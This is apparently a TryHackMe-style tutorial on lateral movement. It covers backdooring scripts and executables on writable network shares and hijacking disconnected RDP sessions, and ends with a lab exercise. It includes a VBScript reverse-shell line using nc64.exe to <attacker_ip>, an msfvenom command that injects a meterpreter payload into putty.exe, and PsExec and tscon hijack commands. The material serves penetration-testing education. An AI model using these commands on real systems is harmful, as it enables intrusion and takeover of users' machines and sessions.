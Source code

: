 # Abusing User Behavior for Lateral Movement and Pivoting

Under certain circumstances, an attacker can exploit user actions to gain further access to machines in a network. Below are some common techniques used for this purpose.

---

## Abusing Writable Shares

In corporate environments, writable network shares are often used by legitimate users for day-to-day tasks. If attackers gain write access to these shares, they can plant malicious files to force users into executing arbitrary payloads, gaining access to their machines.

### Example: Shortcut to a Script or Executable

Administrators may host executables on network shares for users to execute without installing them locally. If attackers have write permissions, they can backdoor these files to execute malicious payloads.

When a user opens the shortcut, the executable is copied to the `%temp%` folder on their workstation and executed. This allows the payload to run in the context of the user's workstation and account.

---

### Backdooring `.vbs` Scripts

If the shared resource is a `.vbs` script, attackers can inject malicious code. For example:

```vbscript
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

This code copies `nc64.exe` to the user's `%tmp%` directory and sends a reverse shell to the attacker when the script is executed.

---

### Backdooring `.exe` Files

If the shared file is a Windows binary (e.g., `putty.exe`), attackers can use `msfvenom` to inject a backdoor:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The backdoored binary will function normally but execute a hidden payload. Replace the original file on the share and wait for connections using Metasploit's `exploit/multi/handler` module.

---

## RDP Hijacking

When administrators close the RDP client without logging off, their sessions remain open. On Windows Server 2016 and earlier, attackers with `SYSTEM` privileges can hijack these sessions without needing a password.

### Steps to Hijack an RDP Session

1. **Obtain SYSTEM Privileges**  
    Use a method like `PsExec` to elevate privileges:
    ```bash
    PsExec64.exe -s cmd.exe
    ```

2. **List Existing Sessions**  
    Run the following command:
    ```bash
    query user
    ```
    Example output:
    ```
    USERNAME         SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
    >administrator   rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
    luke                              3  Disc            .  4/6/2022 6:51 AM
    ```

3. **Hijack a Session**  
    Use `tscon.exe` to connect to a session:
    ```bash
    tscon 3 /dest:rdp-tcp#6
    ```
    This connects session `3` (owned by `luke`) to the administrator's RDP session (`rdp-tcp#6`).

    **Note:** On Windows Server 2019, you cannot hijack sessions without knowing the user's password.

---

## Exercise: Hijacking an RDP Session

1. Obtain credentials from [this link](http://distributor.za.tryhackme.com/creds_t2).
2. Connect to `THMJMP2` via RDP:
    ```bash
    xfreerdp /v:thmjmp2.za.tryhackme.com /u:YOUR_USER /p:YOUR_PASSWORD
    ```
3. Use the provided instructions to hijack `t1_toby.beck`'s RDP session and retrieve the flag.

**Note:** When running `query session`, you may see multiple users named `t1_toby.beck`. Hijack any session marked as `Disc.` to avoid disrupting active users.

---

For additional exercises on backdooring executables or other files, refer to the **Windows Local Persistence** room.